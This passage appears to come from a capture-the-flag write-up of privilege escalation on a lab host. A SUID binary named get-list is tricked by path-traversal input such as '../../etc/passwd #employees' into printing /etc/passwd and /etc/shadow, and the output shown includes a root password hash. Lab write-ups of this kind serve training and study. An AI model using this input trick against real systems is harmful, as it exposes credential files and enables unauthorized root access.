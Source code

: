 **Initial Foothold Obtained**

## Privilege Escalation

Upon doing recon a file with SUID bit has been set to a binary file named `get-list` has been found in the `/opt` directory. The binary prints the employees or customers list if the input is either `employees/customers`.

After a while trying multiple techniques to check the functionality of the binary results that it reads inputs, and prints list of employees and customers and also it reads contents from other files too.

```sh
bob@wheels:/opt$ ./get-list

Which List do you want to open? [customers/employees]: ./../etc/passwd#employees
Opening File....
```

### Bypass

Add space between the file to read and the input `../../etc/passwd #employees`.

**/etc/passwd**

```sh
bob@wheels:/opt$ ./get-list

Which List do you want to open? [customers/employees]: ../../etc/passwd #employees
Opening File....

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
...
```

**/etc/shadow**

```sh
bob@wheels:/opt$ ./get-list

Which List do you want to open? [customers/employees]: ../../etc/shadow #employees
Opening File....

root:$6$Hk74of.if9klVVcS$EwLAljc7.DOnqZqVOTC0dTa0bRd2ZzyapjBnEN8tgDGrR9ceWViHVtu6gSR.L/WTG398zZCqQiX7DP/1db3MF0:19123:0:99999:7:::
daemon:*:18474:0:99999:7:::
bin:*:18474:0:99999:7:::
sys:*:18474:0:99999:7:::
sync:*:18474:0:99999:7:::
...
```
